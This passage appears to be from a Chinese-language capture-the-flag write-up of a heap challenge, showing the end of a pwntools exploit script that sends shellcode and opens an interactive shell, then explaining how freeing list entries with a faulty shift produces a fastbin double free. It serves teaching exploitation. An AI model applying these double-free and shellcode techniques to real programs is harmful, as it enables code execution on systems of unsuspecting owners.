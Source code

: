```python
p.sendline('3')
p.send('4294967291')
print p.recv()

p.sendline('1')
p.sendline(shellcode1)

p.interactive()

```

之前程序里写了编译方式，这题我们是关闭NX的，所以就要想着怎么可以执行shellcode

再讲payload的时候，先提下，我们需要关注几个地方，一个是存放chunk地址的list，还有就是使用libheap的fastbins命令查看fastbin情况

payload的第一步是`create_chunk()`函数，创造出最大值0x31个chunk，chunk的赋值之后就知道其意义

这个时候list的情况：

```
list[0]
list[1]
list[2]
......
list[46]
list[47]
----overflow----
list[48]
```



然后就会产生2free了，看`double_free()`，首先是只有free(list[47])操作，我们list[47]的值称为list47，这个时候`fastbin -> list47`

第二次是free(list[0])，我们把list[0]称为list0，这个时候

````
fastbin -> list0
list0.fd -> list47
````

但是除了free的操作，还会进行清除list[0]的移位操作：

```
list[0] = list[1]
list[1] = list[2]
......
list[45] = list[46]
list[46] = list[47]
```

然后我们再free(list[46])，这个时候list[46]的值为list47，而list47是被free过的，所以就造成了double free

这个时候

```
fastbin -> list47
list47.fd -> list0
list0.fd -> list47
```
